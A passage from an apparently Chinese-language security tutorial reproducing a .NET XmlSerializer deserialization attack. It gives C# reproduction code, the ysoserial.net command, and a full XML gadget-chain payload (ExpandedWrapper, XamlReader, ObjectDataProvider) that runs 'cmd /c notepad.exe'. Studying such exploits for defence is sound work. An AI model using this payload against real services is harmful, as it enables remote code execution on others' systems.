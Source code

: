 
注：使用`XamlReader`等需要引用对应的模块


## 2.4 复现

>code 2.4 反序列化

```

using (StringReader rdr = new StringReader("payload"))
{
    XmlSerializer serializer = new XmlSerializer(Type.GetType("System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"));
    serializer.Deserialize(rdr);
}

```


![](./img/7.9.png)

## 2.5 ysoserial.net

以上其实是[ysoserial.net](https://github.com/pwntester/ysoserial.net)生成的`payload`反推。

>ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad.exe" -o raw

```

<?xml version="1.0"?>
<root xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                        &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                            &lt;ObjectDataProvider.MethodParameters&gt;
                                &lt;System:String&gt;cmd&lt;/System:String&gt;
                                &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                            &lt;/ObjectDataProvider.MethodParameters&gt;
                        &lt;/ObjectDataProvider&gt;
                    &lt;/ResourceDictionary&gt;
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>

```